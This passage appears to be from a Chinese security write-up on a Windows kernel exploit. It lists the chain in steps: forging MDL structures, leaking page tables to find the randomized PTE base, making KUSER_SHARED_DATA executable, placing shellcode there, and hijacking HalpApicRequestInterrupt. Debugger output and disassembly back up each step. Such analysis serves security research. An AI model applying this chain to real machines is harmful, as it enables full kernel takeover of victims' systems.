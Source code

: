 ```
#4a84709c 30 97 9d 49 88 48 f5 78-47 ea 04 38 2f 00 00 00 0..I.H.xG..8/...
#4a8470ac 00 00 80 00 00 00 80 00-00 00 80 00 02 6b 83 89 .............k..
#4a8470bc 4b 8b d6 01 00 00 00 00-00 00 00 00 80 00 40 01 K.............@.
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01b1f259ec4cb69685.png)

### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8%E6%B5%81%E7%A8%8B"></a>漏洞利用流程

1.通过任意地址写伪造MDL结构

2.利用解压缩精准覆盖pMDL1指针，使得压缩数据正好可以解压出伪造的MDL结构地址，但要控制解压失败，避免不必要的后续复制操作覆盖掉重要数据

3.利用前两步读取1aa（1ad）页，寻找自索引值，根据这个值计算PTE base

4.根据PTE BASE和KUSER_SHARED_DATA的虚拟地址计算出该地址的PTE，修改KUSER_SHARED_DATA区域的可执行权限

5.将Shellcode通过任意地址写复制到0xfffff78000000800（属于KUSER_SHARED_DATA）

6.获取halpInterruptController指针以及hal!HalpApicRequestInterrupt指针，利用任意地址写将hal!HalpApicRequestInterrupt指针覆盖为Shellcode地址，将halpInterruptController指针复制到已知区域（以便Shellcode可以找到hal!HalpApicRequestInterrupt函数地址并将halpInterruptController偏移0x78处的该函数指针还原）。hal!HalpApicRequestInterrupt函数是系统一直会调用的函数，劫持了它就等于劫持了系统执行流程。

**计算 PTE BASE：**

使用物理地址读泄露1aa页的数据（测试虚拟机采用BIOS引导），找到其自索引，通过(index &lt;&lt; 39) | 0xFFFF000000000000得到PTE BASE。如下例所示：1aa页自索引为479（0x1DF），因而PTE BASE为(0x1DF &lt;&lt; 39) | 0xFFFF000000000000 = 0xFFFFEF8000000000。

```
0: kd&gt; !dq 1aa000 l1df+1
#  1aa000 8a000000`0de64867 00000000`00000000
#  1aa010 00000000`00000000 00000000`00000000
#  1aa020 00000000`00000000 00000000`00000000
#  ......
#  1aaed0 0a000000`013b3863 00000000`00000000
#  1aaee0 00000000`00000000 00000000`00000000
#  1aaef0 00000000`00000000 80000000`001aa063

1: kd&gt; ?(0x1DF &lt;&lt; 27) | 0xFFFF000000000000
Evaluate expression: -18141941858304 = ffffef80`00000000
```

**计算 KUSER_SHARED_DATA 的 PTE：**

通过 PTE BASE 和 KUSER_SHARED_DATA 的 VA 可以算出KUSER_SHARED_DATA 的 PTE，2017年黑客大会的一篇 PDF 里有介绍。计算过程实际是来源于ntoskrnl.exe中的MiGetPteAddress函数，如下所示，其中0xFFFFF68000000000为未随机化时的PTE BASE，但自Windows 10 1607起 PTE BASE 被随机化，不过幸运的是，这个值可以从MiGetPteAddress函数偏移0x13处获取，系统运行后会将随机化的基址填充到此处（后面一种思路用了这个）：

```
.text:00000001400F1D28 MiGetPteAddress proc near               ; CODE XREF: MmInvalidateDumpAddresses+1B↓p
.text:00000001400F1D28                                         ; MiResidentPagesForSpan+1B↓p ...
.text:00000001400F1D28                 shr     rcx, 9
.text:00000001400F1D2C                 mov     rax, 7FFFFFFFF8h
.text:00000001400F1D36                 and     rcx, rax
.text:00000001400F1D39                 mov     rax, 0FFFFF68000000000h
.text:00000001400F1D43                 add     rax, rcx
.text:00000001400F1D46                 retn
.text:00000001400F1D46 MiGetPteAddress endp

1: kd&gt; u MiGetPteAddress
nt!MiGetPteAddress:
fffff802`045add28 48c1e909        shr     rcx,9
fffff802`045add2c 48b8f8ffffff7f000000 mov rax,7FFFFFFFF8h
fffff802`045add36 4823c8          and     rcx,rax
fffff802`045add39 48b80000000080efffff mov rax,0FFFFEF8000000000h
```